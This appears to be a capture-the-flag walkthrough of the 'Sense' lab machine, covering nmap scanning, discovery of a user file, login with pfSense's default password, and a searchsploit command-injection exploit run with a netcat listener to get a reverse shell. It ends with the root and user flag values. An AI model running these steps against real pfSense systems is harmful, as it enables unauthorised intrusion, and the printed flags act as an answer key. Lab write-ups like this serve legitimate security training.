 Sense Walkthrough
**********************

Nmap
#########

We first start with running nmap

.. code-block:: console

	nmap -sC -sV -T4 sense | tee sense.nmap   
	PORT    STATE SERVICE  VERSION 
	
	80/tcp  open  http     lighttpd 1.4.35 
	
	|_http-server-header: lighttpd/1.4.35 
	
	|_http-title: Did not follow redirect to https://sense/ 
	
	443/tcp open  ssl/http lighttpd 1.4.35 
	
	|_ssl-date: TLS randomness does not represent time 
	
	| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US 
	
	| Not valid before: 2017-10-14T19:21:35 
	
	|_Not valid after:  2023-04-06T19:21:35 
	
	|_http-title: 501 
	
	|_http-server-header: lighttpd/1.4.35 
	
	| http-cookie-flags:	
	
	|   /:  
	
	|     PHPSESSID:  
	
	|_      httponly flag not set 

We see that both the html ports are up. We need to check them out

Web enumeration
###################

We find `https://10.10.10.60/changelog.txt` through our web enumeration. 

We also find that we can get some system-users information through using curl
 
.. code-block:: console

	curl -k https://10.10.10.60/system-users.txt 
	####Support ticket### 
	Please create the following user 
		username: Rohit 
		password: company defaults    

 Understanding pfsense. The default password is `pfsense` so we try that and it works

.. code-block:: console

	rohit:pfsense 

*NOTE* When logged in, it has information disclosure vuls by giving us the hostname, version of the kernel and OS, and etc.

Inital Shell
#################

We then try to find an PE exploit for sense.

.. code-block::console

	Searchsploit pfsense 
	pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                   | php/webapps/43560.py
	Searchsploit –m 43560 
	Nc –lvnp 4444 # on kali machine 
	python3 43560.py --rhost 10.10.10.60 --username rohit --password pfsense --lhost 10.10.14.20 --lport 4444 

You then are able to get user and root flags.

.. code-block:: console

	# cat root.txt 
		D08c32a5d4f8c8b10e76eb51a69f1a86 
	cat /home/rohit/user.txt 
		8721327cc232073b40d27d9c17e7348b 
